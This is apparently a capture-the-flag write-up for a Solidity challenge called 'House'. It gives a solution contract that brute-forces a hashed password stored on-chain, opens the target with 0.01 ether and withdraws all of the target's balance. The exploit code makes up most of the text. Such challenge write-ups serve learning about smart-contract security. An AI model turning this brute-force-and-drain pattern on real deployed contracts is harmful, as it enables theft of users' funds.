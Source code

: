 # House

## Solution

To validate this challenge, we need to read the variable containing the amount of ethers to send and read the variable containing the encrypted password.
Afterwards, it's necessary to find the good password by making a brute force in order to find the equivalent password to the encrypted one.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/hardChalls/House.sol";

contract AttackHouse {
    House originalContract;
    bytes32 password = 0x53d560affeeaf017bf120737c84cae3735e76d2108ce3cb65997cec3eddd36ce;

    constructor(address payable _originalContract) public {
        originalContract = House(_originalContract);
    }

    function findPassword() private view returns (uint) {
        for (uint i = 8500; i < 9000; i++) {
            if (password == keccak256(abi.encodePacked(i)))
                return i;
        }
        revert("Not found");
    }

    function exploit() public payable {
        require (msg.value == 0.01 ether);
        address(originalContract).call.value(0.01 ether)(abi.encodeWithSignature("openTheHouse(uint256)", findPassword()));
        address(originalContract).call(abi.encodeWithSignature("youCanWithdrawAllTheBalance(address payable)", payable(address(this))));
    }

}
```